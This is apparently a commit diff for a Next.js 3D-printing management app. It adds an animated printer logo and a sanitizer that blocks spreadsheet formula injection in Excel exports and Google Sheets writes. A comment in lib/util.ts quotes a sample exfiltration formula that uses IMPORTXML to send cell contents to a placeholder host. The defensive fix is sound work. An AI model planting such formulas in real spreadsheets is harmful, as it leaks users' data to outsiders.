

Before and after one commit to aulasteammed/Aplicativo_impresiones_3D, a Next.js app: page /login in a window 1280 px wide. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Cambios - Auditoria - Seguridad

```diff
--- a/app/api/exportar/route.ts
+++ b/app/api/exportar/route.ts
@@ -1,7 +1,7 @@
 import { NextRequest, NextResponse } from 'next/server';
 import ExcelJS from 'exceljs';
 import { getSolicitudes, getProyectos, getHistorial, getFilamentos, getMantenimientos } from '@/lib/datastore';
-import { esCamaEnCurso, fechaISO, fechaDeCodigoCama, hoyISO } from '@/lib/util';
+import { esCamaEnCurso, fechaISO, fechaDeCodigoCama, hoyISO, sanearCeldaHoja } from '@/lib/util';
 
 export const dynamic = 'force-dynamic';
 export const maxDuration = 60;
@@ -66,7 +66,8 @@ export async function POST(req: NextRequest) {
       const cab = ws.getRow(1);
       cab.font = { bold: true };
       cab.fill = { type: 'pattern', pattern: 'solid', fgColor: { argb: 'FFEEF2FF' } };
-      filas.forEach((f) => ws.addRow(f));
+      // Defensa extra contra inyección de fórmulas al abrir/re-exportar el archivo.
+      filas.forEach((f) => ws.addRow(f.map(sanearCeldaHoja)));
       columnas.forEach((c, i) => { ws.getColumn(i + 1).width = Math.min(48, Math.max(12, c.length + 2)); });
       ws.views = [{ state: 'frozen', ySplit: 1 }];
     };
--- a/app/globals.css
+++ b/app/globals.css
@@ -36,6 +36,31 @@ body {
   .td {
     @apply px-3 py-2.5 text-sm;
   }
+}
+
+/* ===== Logo animado de impresora 3D (componente Impresora3D) ===== */
+.i3d { display: inline-block; vertical-align: -0.18em; overflow: visible; }
+.i3d-head { animation: i3d-slide 2.4s ease-in-out infinite; }
+.i3d-obj {
+  transform-box: fill-box;
+  transform-origin: bottom center;
+  animation: i3d-build 4.8s ease-in-out infinite;
+}
+@keyframes i3d-slide {
+  0%, 100% { transform: translateX(-2.4px); }
+  50%      { transform: translateX(2.4px); }
+}
+@keyframes i3d-build {
+  0%       { transform: scaleY(0.05); opacity: 0; }
+  10%      { opacity: 1; }
+  55%      { transform: scaleY(1); opacity: 1; }
+  85%      { transform: scaleY(1); opacity: 1; }
+  96%      { transform: scaleY(1); opacity: 0; }
+  100%     { transform: scaleY(0.05); opacity: 0; }
+}
+@media (prefers-reduced-motion: reduce) {
+  .i3d-head { animation: none; }
+  .i3d-obj  { animation: none; transform: scaleY(1); opacity: 1; }
 }
 
 /* ===== Dashboard interactivo (ventana principal) — portado del prototipo ===== */
--- a/app/inventario/page.tsx
+++ b/app/inventario/page.tsx
@@ -3,10 +3,11 @@
 // Ventana 5 — Inventario: filamentos (con alertas de stock bajo y movimientos),
 // impresoras y su mantenimiento/consumibles/repuestos.
 
-import { useEffect, useMemo, useState } from 'react';
+import { useEffect, useMemo, useState, type ReactNode } from 'react';
 import { AlertaStock, Filamento, Impresora, Mantenimiento, MovimientoInventario, UmbralAlerta, VariableUmbral } from '@/lib/types';
 import { AccionesFila, Aviso, BarraBusqueda, BotonRecargar, Chip, Combobox, Modal, ModalConfirmar, ModalConfirmarCambios, diffCampos, useDatos } from '@/components/ui';
 import { calcularAlertasAgregadas, formatCOP } from '@/lib/util';
+import Impresora3D from '@/components/Impresora3D';
 
 type Pestania = 'filamentos' | 'impresoras' | 'mantenimiento';
 
@@ -24,7 +25,11 @@ export default function PaginaInventario() {
       {mensaje && <Aviso tipo={mensaje.tipo}>{mensaje.texto}</Aviso>}
 
       <div className="flex gap-1 rounded-xl bg-slate-200/60 p-1">
-        {([['filamentos', '🧵 Filamentos'], ['impresoras', '🖨️ Impresoras'], ['mantenimiento', '🔧 Mantenimiento']] as [Pestania, string][]).map(([id, label]) => (
+        {([
+          ['filamentos', '🧵 Filamentos'],
+          ['impresoras', <span key="imp" className="inline-flex items-center gap-1.5"><Impresora3D className="h-[1.15em] w-[1.15em]" />Impresoras</span>],
+          ['mantenimiento', '🔧 Mantenimiento'],
+        ] as [Pestania, ReactNode][]).map(([id, label]) => (
           <button
             key={id}
             onClick={() => setPestania(id)}
--- a/app/login/page.tsx
+++ b/app/login/page.tsx
@@ -1,6 +1,7 @@
 'use client';
 
 import { useState } from 'react';
+import Impresora3D from '@/components/Impresora3D';
 
 export default function LoginPage() {
   const [clave, setClave] = useState('');
@@ -36,7 +37,7 @@ export default function LoginPage() {
     <div className="fixed inset-0 z-50 flex items-center justify-center bg-steam-gradient p-4">
       <form onSubmit={entrar} className="w-full max-w-sm rounded-2xl bg-white p-8 shadow-2xl">
         <div className="text-center">
-          <div className="text-4xl" aria-hidden>🖨️</div>
+          <Impresora3D className="mx-auto h-14 w-14 text-steam-600" title="Impresora 3D" />
           <h1 className="mt-3 text-xl font-bold text-gray-900">Aula STEAM</h1>
           <p className="mt-1 text-sm text-gray-500">Gestión de Impresión 3D</p>
         </div>
--- /dev/null
+++ b/components/Impresora3D.tsx
@@ -0,0 +1,55 @@
+// Logo animado de impresora 3D (FDM): marco + cama + cabezal que se desliza y una
+// pieza que se va imprimiendo por capas. Usa `currentColor`, así toma el color del
+// contexto (blanco en la barra lateral, índigo en el login, etc.). La animación vive
+// en globals.css (clases i3d-*) y se desactiva con prefers-reduced-motion.
+
+export default function Impresora3D({
+  className,
+  title,
+}: {
+  className?: string;
+  title?: string;
+}) {
+  return (
+    <svg
+      viewBox="0 0 24 24"
+      width="1em"
+      height="1em"
+      className={`i3d ${className ?? ''}`}
+      fill="none"
+      stroke="currentColor"
+      strokeWidth={1.5}
+      strokeLinecap="round"
+      strokeLinejoin="round"
+      role={title ? 'img' : undefined}
+      aria-hidden={title ? undefined : true}
+    >
+      {title ? <title>{title}</title> : null}
+
+      {/* Marco: barra superior y postes */}
+      <path d="M3.5 4.5 H20.5" />
+      <path d="M5 4.5 V17" />
+      <path d="M19 4.5 V17" />
+
+      {/* Cama de impresión y patas */}
+      <path d="M3 17 H21" />
+      <path d="M6.5 17 V18.8" />
+      <path d="M17.5 17 V18.8" />
+
+      {/* Pieza que se imprime (crece por capas desde la cama) */}
+      <path
+        className="i3d-obj"
+        d="M9.5 17 L9.5 13 Q9.5 12.2 10.3 12.2 L13.7 12.2 Q14.5 12.2 14.5 13 L14.5 17 Z"
+        fill="currentColor"
+        fillOpacity="0.22"
+      />
+
+      {/* Cabezal que se desliza en X (carro + boquilla) */}
+      <g className="i3d-head">
+        <rect x="10" y="3.5" width="4" height="2" rx="0.6" fill="currentColor" fillOpacity="0.22" />
+        <path d="M12 5.5 V6.6" />
+        <path d="M10.9 6.7 H13.1 L12 8.7 Z" fill="currentColor" strokeWidth="1" />
+      </g>
+    </svg>
+  );
+}
--- a/components/Sidebar.tsx
+++ b/components/Sidebar.tsx
@@ -2,12 +2,13 @@
 
 import Link from 'next/link';
 import { usePathname } from 'next/navigation';
-import { useEffect, useState } from 'react';
+import { useEffect, useState, type ReactNode } from 'react';
+import Impresora3D from '@/components/Impresora3D';
 
-const NAV = [
+const NAV: { href: string; label: string; icon: ReactNode }[] = [
   { href: '/', label: 'Dashboard', icon: '📊' },
   { href: '/solicitudes', label: 'Solicitudes', icon: '📥' },
-  { href: '/proyectos', label: 'Camas de impresión', icon: '🖨️' },
+  { href: '/proyectos', label: 'Camas de impresión', icon: <Impresora3D className="h-[1.2em] w-[1.2em]" /> },
   { href: '/historial', label: 'Historial', icon: '📚' },
   { href: '/inventario', label: 'Inventario', icon: '🧵' },
 ];
--- a/lib/google/sheets.ts
+++ b/lib/google/sheets.ts
@@ -8,7 +8,7 @@ import {
   Filamento, MovimientoInventario, Impresora, Mantenimiento, EstadoProyecto, UmbralAlerta,
   NuevaSolicitud,
 } from '../types';
-import { normalizarEstado, extraerCorreo, num, marcaTemporalColombia } from '../util';
+import { normalizarEstado, extraerCorreo, num, marcaTemporalColombia, sanearCeldaHoja } from '../util';
 
 // Estado COMPARTIDO vía globalThis: sobrevive al hot-reload del dev server y, sobre
 // todo, se comparte entre todas las rutas del servidor (Next empaqueta cada ruta por
@@ -67,12 +67,18 @@ async function leerRango(spreadsheetId: string, range: string): Promise<string[]
   return datos;
 }
 
+// Todas las escrituras pasan por aquí, así que este es el punto único donde se sanea
+// el texto contra la inyección de fórmulas (ver sanearCeldaHoja).
+function sanear(values: (string | number)[][]): (string | number)[][] {
+  return values.map((fila) => fila.map(sanearCeldaHoja));
+}
+
 async function escribirRango(spreadsheetId: string, range: string, values: (string | number)[][]) {
   await cliente().spreadsheets.values.update({
     spreadsheetId,
     range,
     valueInputOption: 'USER_ENTERED',
-    requestBody: { values },
+    requestBody: { values: sanear(values) },
   });
   invalidarCacheLecturas();
 }
@@ -83,7 +89,7 @@ async function anexarFilas(spreadsheetId: string, range: string, values: (string
     range,
     valueInputOption: 'USER_ENTERED',
     insertDataOption: 'INSERT_ROWS',
-    requestBody: { values },
+    requestBody: { values: sanear(values) },
   });
   invalidarCacheLecturas();
 }
--- a/lib/util.ts
+++ b/lib/util.ts
@@ -43,6 +43,21 @@ export function num(v: string | number | null | undefined): number {
   if (typeof v === 'number') return v;
   const n = parseFloat(String(v).replace(',', '.'));
   return isNaN(n) ? 0 : n;
+}
+
+// Evita la "inyección de fórmulas" en hojas de cálculo (Google Sheets y Excel): un
+// TEXTO que empiece por = + - @ (o tabulador/retorno) puede convertirse en fórmula
+// viva capaz de leer celdas vecinas y filtrarlas (p. ej. =IMPORTXML("http://malo?d="
+// & CONCAT(A2:M2), "//a")). Se le antepone un apóstrofo para forzar que la hoja lo
+// trate como texto; en Google Sheets el apóstrofo ni se muestra. Solo afecta a cadenas
+// peligrosas: los números y las cadenas puramente numéricas (incluidos los negativos,
+// p. ej. "-500") se dejan intactos para que sigan siendo números de verdad.
+const INICIO_FORMULA = /^[=+\-@\t\r\n]/;
+const NUMERO_PLANO = /^[+-]?\d+(?:[.,]\d+)?$/;
+export function sanearCeldaHoja(v: string | number): string | number {
+  if (typeof v !== 'string' || v === '') return v;
+  if (INICIO_FORMULA.test(v) && !NUMERO_PLANO.test(v)) return `'${v}`;
+  return v;
 }
 
 // Colombia usa UTC-5 todo el año (no tiene horario de verano). Se centraliza aquí
```
Also changed, not shown: 2 other files (tests, documents, lock files or other folders).
